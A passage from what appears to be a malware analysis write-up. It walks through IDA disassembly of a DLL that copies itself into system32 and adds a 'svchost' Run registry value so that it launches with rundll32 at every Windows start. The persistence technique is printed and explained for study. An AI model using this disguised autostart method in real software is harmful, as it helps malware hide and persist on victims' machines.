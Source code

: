 ; Continue if RegCreateKey was successful
.text:1000A633 mov     ecx, [ebp+lpData]  ; "c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll"
.text:1000A636 push    ecx             ; char *
.text:1000A637 call    _strlen
.text:1000A63C add     esp, 4
.text:1000A63F push    eax             ; cbData - strlen(lpData)
.text:1000A640 mov     edx, [ebp+lpData]
.text:1000A643 push    edx             ; lpData - ; "c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll"
.text:1000A644 push    1               ; dwType
.text:1000A646 push    0               ; Reserved
.text:1000A648 push    offset aSvchost_0 ; "svchost"
.text:1000A64D mov     eax, [ebp+phkResult]
.text:1000A650 push    eax             ; hKey
.text:1000A651 call    ds:RegSetValueExA
.text:1000A657 mov     [ebp+var_4], 0
.text:1000A65E mov     eax, [ebp+var_4]
.text:1000A661 jmp     short loc_1000A673

.text:1000A673 loc_1000A673:
.text:1000A673 mov     esp, ebp
.text:1000A675 pop     ebp
.text:1000A676 retn

{{< /codecaption >}}

Line 9 pushes ``c:\windows\system32\rundll32.exe c:\windows\system32\svchost.dll`` to the stack and calls ``sub_1000A610`` in line 10. Based on this string and checking for existence of the registry key we can guess what is going to happen in this function.

Inside this function we see that [RegCreateKey](http://msdn.microsoft.com/en-us/library/windows/desktop/ms724842%28v=vs.85%29.aspx) to open ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run``. If the key does not exist, it will create it.

If call was successful, execution continues to line 14. It is adding a new registry key named ``svchost`` to that path with the specified value. Then function will return with the result value of RegSetValueEx. If it was successful, it will be 0.

*The Dll copied itself to system32 and it will run every time Windows starts*.


{{< codecaption lang="nasm" title="Returning from sub_1000A610" >}}

.text:1000A757 call    ds:CopyFileA
.text:1000A75D mov     ecx, [ebp+var_124]
.text:1000A763 push    ecx
.text:1000A764 call    sub_1000A610     ; Create registry key
.text:1000A769 add     esp, 4
.text:1000A76C mov     [ebp+var_114], eax   ; Not used anymore
.text:1000A772 loc_1000A772:
.text:1000A772 call    sub_1000A4C0
.text:1000A777 mov     [ebp+var_118], eax
.text:1000A77D mov     eax, [ebp+var_118]
.text:1000A783 mov     ecx, [ebp+var_4]
.text:1000A786 xor     ecx, ebp
.text:1000A788 call    @__security_check_cookie@4 ; __security_check_cookie(x)
.text:1000A78D mov     esp, ebp
.text:1000A78F pop     ebp
.text:1000A790 retn    0Ch
.text:1000A790 _DllMain@12 endp
.text:1000A790
